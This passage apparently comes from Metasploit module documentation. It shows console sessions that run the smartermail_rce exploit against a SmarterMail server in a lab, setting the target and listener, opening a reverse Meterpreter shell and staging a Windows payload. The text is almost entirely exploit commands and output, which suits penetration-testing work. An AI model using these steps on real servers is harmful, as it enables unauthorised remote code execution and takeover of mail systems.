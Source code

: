 ```
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > 
```

* Using TARGET 1 - x86/x64 Windows CmdStager:

```
msf6 > use exploit/windows/http/smartermail_rce
[*] Using configured payload windows/meterpreter/reverse_tcp
msf6 exploit(windows/http/smartermail_rce) > set TARGET 1
TARGET => 1
msf6 exploit(windows/http/smartermail_rce) > set RHOSTS 192.168.29.1
RHOSTS => 192.168.29.1
msf6 exploit(windows/http/smartermail_rce) > set LHOST eth0
LHOST => eth0
msf6 exploit(windows/http/smartermail_rce) > exploit

[*] Started reverse TCP handler on 192.168.245.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking target web server for a response...
[+] Target is running SmarterMail.
[*] Checking SmarterMail product build...
[+] Target is running SmarterMail Build 6970.
[+] The target appears to be vulnerable.
[*] Command Stager progress -   2.01% done (2046/101881 bytes)
[*] Command Stager progress -   4.02% done (4092/101881 bytes)
[*] Command Stager progress -   6.02% done (6138/101881 bytes)
[*] Command Stager progress -   8.03% done (8184/101881 bytes)
[*] Command Stager progress -  10.04% done (10230/101881 bytes)
[*] Command Stager progress -  12.05% done (12276/101881 bytes)
[*] Command Stager progress -  14.06% done (14322/101881 bytes)
[*] Command Stager progress -  16.07% done (16368/101881 bytes)
[*] Command Stager progress -  18.07% done (18414/101881 bytes)
[*] Command Stager progress -  20.08% done (20460/101881 bytes)
[*] Command Stager progress -  22.09% done (22506/101881 bytes)
[*] Command Stager progress -  24.10% done (24552/101881 bytes)
[*] Command Stager progress -  26.11% done (26598/101881 bytes)
[*] Command Stager progress -  28.12% done (28644/101881 bytes)
[*] Command Stager progress -  30.12% done (30690/101881 bytes)
[*] Command Stager progress -  32.13% done (32736/101881 bytes)
[*] Command Stager progress -  34.14% done (34782/101881 bytes)
[*] Command Stager progress -  36.15% done (36828/101881 bytes)
[*] Command Stager progress -  38.16% done (38874/101881 bytes)
[*] Command Stager progress -  40.16% done (40920/101881 bytes)
[*] Command Stager progress -  42.17% done (42966/101881 bytes)
[*] Command Stager progress -  44.18% done (45012/101881 bytes)
[*] Command Stager progress -  46.19% done (47058/101881 bytes)
[*] Command Stager progress -  48.20% done (49104/101881 bytes)
[*] Command Stager progress -  50.21% done (51150/101881 bytes)
[*] Command Stager progress -  52.21% done (53196/101881 bytes)
[*] Command Stager progress -  54.22% done (55242/101881 bytes)
[*] Command Stager progress -  56.23% done (57288/101881 bytes)
[*] Command Stager progress -  58.24% done (59334/101881 bytes)
[*] Command Stager progress -  60.25% done (61380/101881 bytes)
[*] Command Stager progress -  62.25% done (63426/101881 bytes)
[*] Command Stager progress -  64.26% done (65472/101881 bytes)
[*] Command Stager progress -  66.27% done (67518/101881 bytes)
[*] Command Stager progress -  68.28% done (69564/101881 bytes)
[*] Command Stager progress -  70.29% done (71610/101881 bytes)
[*] Command Stager progress -  72.30% done (73656/101881 bytes)
[*] Command Stager progress -  74.30% done (75702/101881 bytes)
[*] Command Stager progress -  76.31% done (77748/101881 bytes)
```